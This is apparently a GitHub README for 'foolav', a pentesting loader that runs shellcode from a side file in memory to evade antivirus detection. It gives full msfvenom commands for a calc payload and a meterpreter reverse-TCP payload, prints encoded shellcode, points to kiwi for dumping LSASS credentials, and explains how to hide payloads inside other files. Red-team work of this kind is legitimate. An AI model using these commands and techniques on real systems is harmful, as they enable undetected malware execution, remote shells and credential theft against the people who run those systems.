 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

## Usage steps

1. prepare your payload (x86), i.e.
   
   calc: ```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf``` (you dont really need to use any encoder or characters blacklisting, it will work anyway)
   
   meterpreter: ```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=... -a x86 -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
2. copy payload file `[executable-name-without-exe-extension].mf` in the same directory as executable
   payload running calc.exe generated using above command:
   ```
   # calc.exe
   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
   ```
3. once executable is run, payload file will be parsed, loaded into separate thread and executed in memory:
   
   ![screen](https://cloud.githubusercontent.com/assets/4956006/12366078/2c13213c-bbd9-11e5-8fc9-a7a62194158e.png)

## Hints

- x86 binary will run on both x86 and x86_64 Windows systems. Still, you need to use x86 architecture payloads. Nevertheless, x86 meterpreter payload can be migrated to x86_64 processes. After that, `load kiwi` will load x86_64 version making it possible to access juicy contents of LSASS process memory :)

  ![meter](https://cloud.githubusercontent.com/assets/4956006/12372509/aa21a00e-bc5a-11e5-8589-98ee8ce8bfc0.png)

- .mf payload file can be obfuscated - parser will ignore every character other than `\xHH` hexdecimal sequences. This means, it can append your payload to almost any file, hide it between the lines or even add your own comments, example:

![obfuscation](https://cloud.githubusercontent.com/assets/4956006/12372526/ca361694-bc5b-11e5-9a31-be6847cdcec2.png)

## Download

https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip

## License

[MIT License](LICENSE)
